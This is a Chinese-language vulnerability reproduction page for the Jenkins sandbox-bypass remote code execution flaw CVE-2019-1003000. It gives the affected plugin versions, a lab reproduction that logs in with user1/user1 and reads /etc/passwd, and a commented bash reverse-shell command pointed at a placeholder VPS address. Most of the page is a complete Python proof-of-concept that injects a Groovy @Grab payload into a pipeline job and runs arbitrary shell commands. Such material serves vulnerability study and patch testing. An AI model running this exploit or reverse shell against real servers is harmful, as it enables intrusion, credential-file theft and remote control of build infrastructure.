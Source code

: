 # Jenkins 远程代码执行漏洞 CVE-2019-1003000

## 漏洞描述

Jenkins是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件项目可以进行持续集成.

该漏洞存在于`Declarative Plugin 1.3.4.1`之前的版本, `Groovy Plugin 2.61.1`之前的版本以及`Script Security Plugin 1.50`之前的版本。该漏洞通过将AST转换注释（如@Grab）应用于源代码元素，可以在脚本编译阶段避免脚本安全沙箱保护。所以会造成具有`Overall/Read`权限的用户或能够控制SCM中的`Jenkinsfile`或者`sandboxed Pipeline`共享库内容的用户可以绕过沙盒保护并在Jenkins主服务器上执行任意代码。

## 漏洞影响

```
Declarative Plugin < 1.3.4.1
Groovy Plugin < 2.61.1
Script Security Plugin < 1.50
```

## 漏洞复现

账号密码 user1/user1 登录：

![](images/Jenkins%20远程代码执行漏洞%20CVE-2019-1003000/image-20240322151659595.png)

```shell
# activate py27
python exploit.py --url http://eci-2ze1x17tl0kujrg3c5ey.cloudeci1.ichunqiu.com:8080 --job my-pipeline --username user1 --password user1 --cmd "cat /etc/passwd"

# --cmd "bash -i >& /dev/tcp/<YOUR-VPS-IP>/<YOUR-VPS-PORT> 0>&1"
```

![](images/Jenkins%20远程代码执行漏洞%20CVE-2019-1003000/image-20240322151954995.png)

## 漏洞POC

```
python exploit.py --url http://jenkins-site.com --job job_name --username your_user --password your_passwd --cmd "cat /etc/passwd"
```

```python
#!/usr/bin/python

# Author: Adam Jordan
# Date: 2019-02-15
# Repository: https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc
# PoC for: SECURITY-1266 / CVE-2019-1003000 (Script Security), CVE-2019-1003001 (Pipeline: Groovy), CVE-2019-1003002 (Pipeline: Declarative)


import argparse
import jenkins
import time
from xml.etree import ElementTree

payload = '''
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }

print new ProcBuilder("/bin/bash").withArgs("-c","%s").run().getOutputString()
'''


def run_command(url, cmd, job_name, username, password):
    print '[+] connecting to jenkins...'
    server = jenkins.Jenkins(url, username, password)

    print '[+] crafting payload...'
    ori_job_config = server.get_job_config(job_name)
    et = ElementTree.fromstring(ori_job_config)
    et.find('definition/script').text = payload % cmd
    job_config = ElementTree.tostring(et, encoding='utf8', method='xml')

    print '[+] modifying job with payload...'
    server.reconfig_job(job_name, job_config)
    time.sleep(3)

    print '[+] putting job build to queue...'
    queue_number = server.build_job(job_name)
    time.sleep(3)

    print '[+] waiting for job to build...'
    queue_item_info = {}
    while 'executable' not in queue_item_info:
        queue_item_info = server.get_queue_item(queue_number)
        time.sleep(1)

    print '[+] restoring job...'
    server.reconfig_job(job_name, ori_job_config)
    time.sleep(3)

    print '[+] fetching output...'
    last_build_number = server.get_job_info(job_name)['lastBuild']['number']
    console_output = server.get_build_console_output(job_name, last_build_number)

    print '[+] OUTPUT:'
    print console_output


if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Jenkins RCE')

    parser.add_argument('--url', help='target jenkins url')
    parser.add_argument('--cmd', help='system command to be run')
    parser.add_argument('--job', help='job name')
    parser.add_argument('--username', help='username')
    parser.add_argument('--password', help='password')

    args = parser.parse_args()

    run_command(args.url, args.cmd, args.job, args.username, args.password)

```
